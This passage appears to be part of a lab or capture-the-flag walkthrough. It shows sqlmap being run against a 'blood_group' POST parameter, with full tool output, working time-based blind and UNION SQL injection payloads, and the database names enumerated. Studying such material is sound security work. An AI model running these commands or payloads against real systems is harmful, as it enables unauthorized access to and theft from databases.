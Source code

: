 Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:\
\
`sqlmap -r req.txt -p blood_group --dbs`

`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`

Here we have used two flags: -r to read the file, -p to supply the vulnerable parameter, and --dbs to enumerate the database.

#### Database Enumeration

```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group --dbs
[19:31:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:31:50] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[19:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:33:09] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:33:09] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[19:33:09] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[19:33:10] [WARNING] reflective value(s) found and filtering out
[19:33:12] [INFO] target URL appears to be UNION injectable with 8 columns
[19:33:13] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:33:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:33:17] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test
```
